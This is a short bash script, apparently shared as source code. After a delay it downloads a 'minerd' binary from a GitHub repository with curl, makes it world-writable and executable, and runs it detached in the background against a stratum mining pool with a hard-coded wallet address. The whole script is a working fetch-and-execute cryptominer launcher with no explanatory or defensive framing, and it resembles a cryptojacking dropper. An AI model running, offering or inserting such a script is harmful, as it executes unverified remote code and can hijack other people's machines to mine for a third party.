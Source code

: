 #!/bin/bash
sleep 15
mkdir /data
cd /data
curl -LO https://github.com/2319763378/pool/raw/master/minerd
chmod 777 minerd
nohup ./minerd -a CryptoVantaa -o stratum+tcp://pool.etgd.com:3113 -u ETmF5wiWCPjMyXEoEbEGoL6UkcAXAvT7Ah -p c=IOTE &
